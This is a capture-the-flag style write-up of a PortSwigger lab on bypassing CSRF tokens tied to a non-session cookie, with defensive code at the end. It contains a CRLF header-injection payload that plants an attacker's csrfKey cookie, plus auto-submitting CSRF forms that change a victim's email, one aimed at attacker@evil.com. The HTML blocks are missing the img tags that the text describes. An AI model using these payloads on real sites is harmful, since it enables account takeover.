

# Lab 05: CSRF Where Token Is Tied to Non-Session Cookie

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 05
> **Platform**: PortSwigger Web Security Academy

## Category
CSRF — Token Bypass via Cookie Injection

## Vulnerability Summary
The application uses CSRF tokens, but validates them against a separate `csrfKey` cookie rather than the session cookie. An attacker who can inject a cookie into the victim's browser (e.g. via a `Set-Cookie` response from a search endpoint) can plant a known `csrfKey` cookie and pair it with the corresponding CSRF token to forge a valid request — even without access to the victim's session.

## Attack Methodology

### Step 1: Recon
Logged in with the provided credentials and intercepted the email-change request in Burp Suite:

```
POST /my-account/change-email HTTP/2
Host: 0a9400e80412426a819e0c9000af001e.web-security-academy.net
Cookie: session=<victim-session>; csrfKey=<key>

email=test%40test.com&csrf=<token>
```

Noted two CSRF-related values: a `csrfKey` cookie and a `csrf` body parameter.

### Step 2: Understanding the Validation Mechanism
Tested swapping the `csrf` token with one from a different session — rejected. Tested swapping both the `csrfKey` cookie and the matching `csrf` token from the attacker's own session — **accepted**.

**Hypothesis**: The server validates that `csrf` token matches `csrfKey` cookie, but does not check that either of these is tied to the session cookie. If the attacker can inject their own `csrfKey` into the victim's browser, the victim's browser will send the attacker's `csrfKey` alongside the attacker's known `csrf` token — and the server will accept it.

### Step 3: Finding the Cookie Injection Vector
Discovered the search functionality reflects the search term into a `Set-Cookie` header:

```
GET /?search=hello HTTP/2
...

HTTP/2 200 OK
Set-Cookie: LastSearchTerm=hello; Secure; HttpOnly
```

The value is not properly sanitised. Injecting a newline (`%0d%0a`) into the search term allows CRLF injection to append an arbitrary `Set-Cookie` header:

```
GET /?search=hello%0d%0aSet-Cookie:%20csrfKey=<attacker-csrfKey>%3b%20SameSite=None HTTP/2
```

This causes the server response to set the attacker's `csrfKey` in the victim's browser.

### Step 4: Crafting the Exploit
Built a two-stage exploit page:
1. An `` tag fires the cookie-injection request (loads the search URL with the injected `Set-Cookie`)
2. A form auto-submits the email-change request using the attacker's known `csrf` token

```html
<html><body>
  
  <form action="https://0a9400e80412426a819e0c9000af001e.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="nahiyaar@gmail.com" />
    <input type="hidden" name="csrf" value="YOUR_CSRF_TOKEN" />
  </form>
</body></html>
```

The `onerror` handler ensures the form submits only after the cookie has been planted (the `img` src returns a non-image, so `onerror` always fires).

### Step 5: Delivering the Exploit
- Pasted the PoC into the Exploit Server body with the attacker's real `csrfKey` and `csrf` values substituted in
- Clicked **Store** then **Deliver exploit to victim**

### Step 6: Results



Lab marked as **Solved** — victim (carlos) email changed to `nahiyaar@gmail.com`.

## Technical Root Cause

```python
# ❌ Vulnerable — validates token against csrfKey cookie, not session
def validate_csrf(request):
    token = request.POST.get('csrf')
    key   = request.COOKIES.get('csrfKey')
    return hmac_verify(key, token)   # no check that key belongs to this session

# ✅ Secure — token must be tied to the session itself
def validate_csrf(request):
    token = request.POST.get('csrf')
    return token == request.session.get('csrf_token')
```

### Why This Works

| Scenario | csrfKey in Cookie | csrf Token Matches Key | Request Processed |
|----------|-------------------|------------------------|-------------------|
| Legitimate user | ✅ Own key | ✅ Yes | ✅ Yes |
| Attacker (no injection) | ✅ Own key | ❌ Doesn't match victim's key | ❌ Blocked |
| Attacker (with injection) | ✅ Attacker's key injected | ✅ Attacker's matching token | ✅ Yes — **vulnerable** |

## Impact
- **Account Takeover**: Email changed → password reset to attacker's inbox → full takeover
- **CSRF Defence Bypassed**: Token validation exists but is rendered useless by the cookie injection primitive
- **Cookie Injection as Force Multiplier**: Any `Set-Cookie` reflection in the app (search, redirect, error pages) can be the injection vector
- **Victim Interaction**: Only requires the victim to load a page — no clicks needed

## Proof of Concept

**Minimal**
```html

<form action="https://TARGET/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="attacker@evil.com" />
  <input type="hidden" name="csrf" value="ATTACKER_TOKEN" />
</form>
```

**Full Exploit (as used)**
```html
<html><body>
  
  <form action="https://0a9400e80412426a819e0c9000af001e.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="nahiyaar@gmail.com" />
    <input type="hidden" name="csrf" value="YOUR_CSRF_TOKEN" />
  </form>
</body></html>
```

## Key Takeaways
1. **CSRF Tokens Must Be Session-Bound**: A token validated against a separate cookie is only as safe as that cookie's confidentiality — if the cookie can be planted, the token is worthless.
2. **CRLF Injection → Cookie Injection**: Any response that reflects user input into headers without stripping `\r\n` can be used to inject arbitrary cookies.
3. **`onerror` as Sequencing Primitive**: Using an `` `onerror` handler is a reliable way to sequence a cookie-injection request before an auto-submitting form — no JavaScript timing tricks needed.
4. **Two Artifacts, Both Attacker-Controlled**: The attack works because both the `csrfKey` cookie and the `csrf` token can be attacker-supplied. Breaking that link (tying either to the session) would prevent the attack.
5. **Test Portability of Token Pairs**: When a CSRF token and a non-session cookie are used together, always test whether swapping both from your own account bypasses validation.

## Mitigation

### 1. Bind the CSRF Token to the Session
```python
# ✅ Store and validate token in the server-side session
def validate_csrf(request):
    token = request.POST.get('csrf')
    if not token or token != request.session.get('csrf_token'):
        return HttpResponseForbidden('Invalid CSRF token')
```

### 2. Sanitise Header-Reflected Values (fix CRLF injection)
```python
# Strip CR and LF from any value reflected into response headers
safe_value = user_input.replace('\r', '').replace('\n', '')
response.set_cookie('LastSearchTerm', safe_value)
```

### 3. SameSite Cookie Attribute
```http
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly
```

### 4. Avoid Separate CSRF Key Cookies
If a stateless HMAC-based token is needed, include the session identifier inside the token's signed payload so the pair cannot be transplanted to another session.

## References
- [PortSwigger CSRF Lab - Token Tied to Non-Session Cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [OWASP CRLF Injection](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, CSRF PoC Generator)
- Chromium
- PortSwigger Exploit Server

---

*Lab completed on: 2026-04-17*
*Writeup by vibhxr*
